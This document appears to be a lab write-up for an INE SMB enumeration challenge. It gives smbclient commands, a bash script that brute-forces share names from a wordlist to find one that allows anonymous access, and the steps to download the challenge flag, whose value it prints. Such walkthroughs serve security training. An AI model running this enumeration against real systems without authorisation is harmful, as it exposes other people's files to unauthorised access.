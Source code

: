# SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```
![Step 1 - Initial SMB Error](./1.png)

### 🔹 Step 2: Create Enumeration Script (shares.sh)

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

TARGET="target.ine.local"
WORDLIST="./shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
Make it executable:
```bash
chmod +x shares.sh
```
![Step 2 - Created Script](./2.png)

### 🔹 Step 3: Create the Wordlist (shares.txt)
```text
publicdata
communitydata
openstorage
freestorage
accessiblestorage
pubstorage
commonstorage
publicarchive
sharedarchive
commonarchive
pubarchive
opendocs
freedocs
communitydocs
accessibledocs
commondocs
pubdocs
publicfiles
openfiles
freefiles
sharedfiles
accessiblefiles
communityfiles
commonsfiles
pubfiles
openvault
freevault
accessiblevault
publicvault
commonvault
openlibrary                                                                                                                                                                                                                                
pubvault                                                                                                                                                                                                                                   
freelibrary                                                                                                                                                                                                                                
accessiblelibrary                                                                                                                                                                                                                          
worldstoragebin                                                                                                                                                                                                                            
universalstoragebin                                                                                                                                                                                                                        
sharedstoragebin                                                                                                                                                                                                                           
collectivestoragebin                                                                                                                                                                                                                       
mutualstoragebin                                                                                                                                                                                                                           
globalarchivebin
worldarchivebin
universalarchivebin
```

### 🔹 Step 4: Run the Script
```bash
./shares.sh
```
![Step 3 - Brute Forcing Shares](./3.png)

Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
![Step 4 - Found Anonymous Access](./4.png)

That means pubfiles is accessible anonymously.

### 🔹 Step 5: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 6: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```
![Step 5 - Retrieved Flag](./5.png)

### 🔹 Step 7: View the Flag
```bash
cat flag1.txt
```
![Step 6 - Viewed Flag Content](./6.png)

✅ Final Output:
FLAG{56a55b23a464f5b8893fe22c6e3d611}

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- `flag1.txt`: Retrieved flag from the anonymous share
- - Screenshots: 1.png → 6.png (steps of the challenge)
